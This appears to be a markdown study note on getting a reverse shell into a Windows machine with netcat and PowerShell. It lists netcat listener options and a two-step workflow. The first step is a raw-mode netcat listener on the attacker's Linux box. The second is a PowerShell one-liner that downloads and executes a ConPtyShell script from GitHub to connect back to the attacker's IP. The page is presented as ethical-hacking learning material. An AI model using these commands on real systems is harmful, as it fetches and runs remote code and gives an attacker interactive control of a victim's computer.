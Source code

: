 # Ethical Hacking - Remote Access - Windows - Reverse Shell with Netcat

## Information
### DESCRIPTION
```
Reverse Shell on Windows is slightly different from Linux as Windows doesnt have netcat natively
- However, Windows does have Powershell
```

## Tools 
### Linux
+ stty
+ Netcat
+ Attacker System (Listening) : Outside of a firewall
+ Target/Victim System (Connecting) : Inside of a firewall
### Windows
+ powershell

## Netcat
### Synopsis/Syntax 
```console
sudo nc {options}
```
### Parameters
#### Listener/Server
+ -l : Start listening for connection; Listener Mode
+ -n : Do not use DNS; only use IP address
+ -v : Verbose Mode; Show detailed information
+ -p : Specify ports to listen on; Try to keep firewall within the well known ports (under 1000)
+ -s : Specify source (Attacker) IP address to listen with
#### Client
+ -e [command] : Execute a command; Generally will be the shell

## WorkFlow
> Method/Order of Operation
- Reverse Shell Remote Connection/Access
    1. Start listener (server) to listen for a connection (on Linux system)
	```console
	stty raw -echo; (stty size; cat) | nc -lvnp [listener-port] -s [listener-source-ip-address]
	```
    2. Download the script to initiate a connection back to listener (attacker)
	+ Connect to listener with target/victim (client) (on Windows system)
	+ This command is using Powershell
	```powershell
	IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell [listener (attacker) IP Address] [listening-port-number]
	```

## References
+ [YouTube | NetworkChuck | how to get remote access to your hacking targets // reverse shells with netcat (Windows and Linux!!)](https://www.youtube.com/watch?v=bXCeFPNWjsM)

## Resources
+ [swisskyrepo/PayloadsAllTheThings - Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Remarks
